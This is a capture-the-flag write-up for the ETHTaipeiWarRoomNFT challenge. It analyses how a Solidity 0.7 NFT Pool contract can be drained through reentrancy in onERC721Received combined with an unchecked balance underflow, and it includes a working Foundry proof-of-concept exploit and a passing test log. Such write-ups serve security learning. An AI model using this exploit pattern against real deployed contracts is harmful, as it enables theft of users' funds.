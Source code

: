 # Challenge - ETHTaipeiWarRoomNFT

To set up this challenge, an NFT contract was deployed, and an NFT was minted for each player. Additionally, it deployed a Pool contract.

## Objective of CTF

To pass this level, we needed to accumulate a balance of over 1000 ether in the Pool contract:

## Vulnerability Analysis

### Root Cause: Overflow/Underflow

The contract specifies a compiler version of `^0.7.0`, which does not automatically prevent overflow or underflow in arithmetic operations.

In the `Pool` contract, there are two key functions: `deposit` and `withdraw`. These functions allow users to deposit NFTs into the pool and then withdraw them. The relevant code is as follows:

```solidity
function deposit(uint256 tokenId) external {
    IERC721(NFTCollateral).transferFrom(msg.sender, address(this), tokenId);
    _userDeposits[msg.sender][tokenId] = true;
    _balances[msg.sender] += 1 ether;
}

function withdraw(uint256 tokenId) external {
    require(_userDeposits[msg.sender][tokenId], "Should be owner.");
    require(_balances[msg.sender] > 0, "Should have balance.");

    IERC721(NFTCollateral).safeTransferFrom(address(this), msg.sender, tokenId);
    _balances[msg.sender] -= 1 ether;
    delete _userDeposits[msg.sender][tokenId];
}
```

The vulnerability arises because the `_balances` variable is updated directly using basic arithmetic operations without using the `SafeMath` library or any overflow/underflow checks.

### Attack steps:

1. Deposit an NFT into the pool.
2. Call the `withdraw` function, which triggers a callback function (e.g., `onERC721Received()`).
3. Inside the callback function, return the NFT to the pool and call the `withdraw` function again, allowing the attacker to withdraw more than the deposited balance, which causes an underflow in the `_balances` variable.

## PoC test case

```solidity
function testExploit() public {
    vm.startPrank(challenger);
    nft.approve(address(pool), tokenId);
    pool.deposit(tokenId);
    pool.withdraw(tokenId);
    vm.stopPrank();

    base.solve();
    assertTrue(base.isSolved());
}

function onERC721Received(address, address, uint256, bytes memory) external returns (bytes4) {
    if (cnt < 2) {
        cnt++;
        nft.safeTransferFrom(address(this), address(pool), tokenId);
        pool.withdraw(tokenId);
    }
    return this.onERC721Received.selector;
}
```

### Test Result

```
Ran 1 test for test/Pool.t.sol:PoolTest
[PASS] testExploit() (gas: 387192)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.86ms (642.17µs CPU time)

Ran 1 test suite in 244.16ms (1.86ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
